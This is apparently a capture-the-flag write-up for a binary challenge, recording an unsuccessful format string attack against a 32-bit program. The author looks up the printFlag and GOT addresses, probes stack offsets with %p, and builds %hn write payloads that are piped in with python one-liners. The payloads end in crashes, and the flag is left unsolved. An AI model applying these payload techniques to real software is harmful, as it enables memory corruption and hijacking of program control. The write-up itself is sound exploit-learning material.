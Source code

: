 # Personal Letter
binary - 160 points

## Challenge 
Have you ever gotten tired of writing your name in the header of a letter? Well now there's a [program](personal_letter32) ([source](letter.c)) to do it for you! Navigate to `/problems/letter/` on the shell server to try your exploit out!

## Hint
It prints your name right in the letter!


## Failed Solution

#### Format String Attack

References explaining how to perform format string attacks:

- http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html
- https://blog.skullsecurity.org/2015/defcon-quals-babyecho-format-string-vulns-in-gory-detail
- https://stackoverflow.com/questions/21162273/overwrite-return-address-simple-format-string-exploit
- https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920

#### Return address

	$ gdb ./personal_letter32 
	(gdb) info add printFlag
	Symbol "printFlag" is at 0x804872b in a file compiled without debugging.
	(gdb) break printFlag
	Breakpoint 1 at 0x8048731

Little endian: `\x2b\x87\x04\x08`
Little endian: `\x31\x87\x04\x08`

#### Find input buffer offset in stack

	# echo 'ABCD %21$p %22$p %23$p %24$p %25$p %26$p %27$p %28$p %29$p %30$p' |./personal_letter32 
	Welcome to the personal letter program!
	Give us your name, and we will generate a letter just for you!
	Enter Name (100 Chars max): 
	________________________________________
	|                                      |
	|                                      |
	|  Dear ABCD (nil) 0xf77d7110 0xff8f6f44 0xff8f6e3f (nil) 0x44434241 0x31322520 0x25207024 0x70243232 0x33322520,|
	|  __________________________________  |

Control using `%26$p`

#### Overwrite `exit()` with `printFlag()`

Overwrite `exit()` function?

	$ objdump -d ./personal_letter32 

GOT table in Hopper

			 exit@GOT:        // exit
	0804a030         dd         0x0804b028  

	 printf@GOT:        // printf
	0804a010         dd         0x0804b004               
Little endian: `\x0c\xa0\x04\x08`
Little endian: `\x10\xa0\x04\x08`
Little endian: `\x28\xb0\x04\x08`
Little endian: `\xb0\x85\x04\x08`

#### Form payload

Write 2 bytes at a time...

	Higher 2 bytes: 0x0804 (2052)
	Lower 2 bytes:  0x872b (34603)

	Format:
		<address><address+2>%<number>x%<offset>$hn%<other number>x%<offset+1>$hn

Forming the values (failed though)

	Plug in the values:
		\xb0\x85\x04\x08 // low word addr
		\xb2\x85\x04\x08 // high word addr
		%2044x   %27$hn  // 2052 bytes: wrote 8 bytes already, write additional 2044 bytes.
		%32551x  %26$hn  // 34603 bytes: wrote 2052 bytes already, write additional 32551 bytes.
		
	Combine payload:
		\xb0\x85\x04\x08\xb2\x85\x04\x08%2044x%26$hn%32551x%26$hn

	In Python:
		python -c "print '\x30\xa0\x04\x08\x32\xa0\x04\x08' + '%2044x%26\$hn%32551x%26\$hn'"
		python -c "print '\x10\xa0\x04\x08\x12\xa0\x04\x08' + '%2044x%26\$hn%32551x%26\$hn'"

Guess and check
	
	$ python -c "print '\x30\xa0\x04\x08\x32\xa0\x04\x08%2036x%26\$hn'" | strace ./personal_letter32 
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x8040804} ---

	$ python -c "print '\x30\xa0\x04\x08\x32\xa0\x04\x08' + '%2036x%27\$hn' + '%32551x%26\$hn'" | strace ./personal_letter32 
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x8040804} ---


	# echo 'abcd %26$p %24$p ' |./personal_letter32 
	Welcome to the personal letter program!
	Give us your name, and we will generate a letter just for you!
	Enter Name (100 Chars max): 
	________________________________________
	|                                      |
	|                                      |
	|  Dear abcd 0x64636261 0xff9af6cf ,             |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|  __________________________________  |
	|______________________________________|
	Exiting.




## Flag

	??





